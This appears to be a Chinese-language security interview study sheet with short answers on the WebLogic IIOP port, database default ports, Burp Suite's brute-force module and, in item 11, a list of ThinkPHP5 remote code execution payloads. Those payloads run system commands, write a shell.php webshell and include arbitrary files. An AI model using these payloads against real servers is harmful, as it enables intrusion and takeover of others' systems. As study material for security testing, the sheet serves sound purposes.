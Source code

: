 10. **weblogic中，iiop默认端口。**

    - 7001

11. **thinkphp5代码注入漏洞payload。**

    ```
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ```

    总结：

    ```
    5.1.x
    ?s=index/\think\Request/input&filter[]=system&data=pwd
    ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ```

    ```
    5.0.x
    ?s=index/think\config/get&name=database.username # 获取配置信息
    ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
    ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ```

12. **mysql端口号。**

    - 3306

      总结：

      | 数据库名称 | 端口号 |
      | ---------- | ------ |
      | Oracle     | 1521   |
      | SQL Server | 1433   |
      | MySQL      | 3306   |
      | Pointbase  | 9092   |
      | DB2        | 5000   |
      | PostgreSQL | 5432   |
      | MongoDB    | 27017  |
      | Redis      | 6379   |
      | Memcached  | 11211  |

13. **burpsuite爆破模块是哪个。**

    - Intruder
